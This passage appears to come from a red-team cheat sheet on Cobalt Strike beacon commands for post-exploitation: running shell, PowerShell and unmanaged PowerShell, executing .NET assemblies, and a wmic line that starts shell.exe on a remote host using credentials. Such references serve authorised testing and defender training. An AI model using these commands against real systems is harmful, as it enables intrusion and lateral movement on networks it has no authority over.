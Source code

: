 ```
    upload                    Upload a file to specified remote location.
```

### 3.1.2 - Basic Commands

#### 3.1.2.1 - Navigation

`beacon> cd <directory>`

#### 3.1.2.2 - Sleep and Jitter

* Set the sleep time for executing beacon commands with delay. If `sleep` is `0` it becomes interactive mode.

`beacon> sleep <seconds> <jitter>`

`beacon> sleep 30 15`

#### 3.1.2.2 - List files or directories

`beacon> ls`

#### 3.1.2.3 - Execute Shell Commands

* Execute any `shell` command that the beacon spawns a process `cmd.exe`

`beacon> shell <command> [args]`

`beacon> shell dir /s /b c:\ | findstr "explorer.exe"`

* Spawns a `cmd.exe` process but doesn't print the output

`beacon> execute <command> [args]`

* Spawns a child process of `powershell.exe`

`beacon> powershell <cmdlet> [args]`

* Executes unmanaged powershell command. Make sure to change the process when using the `spawnto` command

`beacon> powerpick <cmdlet> [args]`

#### 3.1.2.4 - Execute Program

Execute commands without spawning `cmd.exe` except the running process comes from the beacon. This is highly recommended when you perform post exploitation activities.

`beacon> run <command> [args]`

`beacon> run arp -a`

`beacon> run wmic.exe /node:<IP> /user:<username> /password:<password> win32_process call create "C:\path\to\shell.exe"`

Run .NET binary through a temporary process when running `spawnto` beacon command otherwise it defaults back to `rundll32.dll`

`beacon> execute-assembly /path/to/compiled_dotnet_tool.exe [args]`

